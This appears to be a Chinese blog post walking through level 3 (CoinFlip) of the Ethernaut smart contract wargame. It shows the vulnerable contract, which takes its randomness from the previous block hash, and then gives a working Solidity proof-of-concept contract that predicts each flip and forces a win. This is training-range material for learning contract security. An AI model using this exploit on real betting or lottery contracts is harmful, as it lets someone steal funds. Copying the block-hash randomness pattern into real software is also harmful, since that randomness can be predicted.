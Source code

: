 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-2'
date: 2022-12-7 16:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'





---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](G:\vue-press\hanxin-vuepress\docs\技术文章\区块链相关\assets\1670479273112.png)

:::

#### 第三关coinflip 思路与POC

##### 目标: 猜对10次flip函数得出的结果

#### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    //核心逻辑:利用区块高度-1除以FACTOR得出随机数
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

#### 乍一看似乎没有问题,实际上纯粹使用链上数据生成的随机数就必然能够被恶意合约利用.

##### poc思路:game_die: :恶意合约只需要根据coinfilp合约生成随机数的核心逻辑复刻一份即可,只要两份合约部署在同一链上就能利用

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

//复制一份CoinFlip合约代码
import "./CoinFlip.sol";

contract hackFilp  {

   uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
   //根据合约地址取得实例
   CoinFlip public filp =  CoinFlip(0x515f81b42E60D8ad5b15FbD43330A3b5bD3D8574);
 

  function hackFlip(bool _guess) public {
    
    // 需要hack合约上的随机数生成逻辑
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;

    bool side = coinFlip == 1 ? true : false;
     
     //扭转错误的猜测
    if (side == _guess) {
        filp.flip(_guess);
    } else {
   
        filp.flip(!_guess);
    }
}

}
```

![info](./assets/1670489224267.png)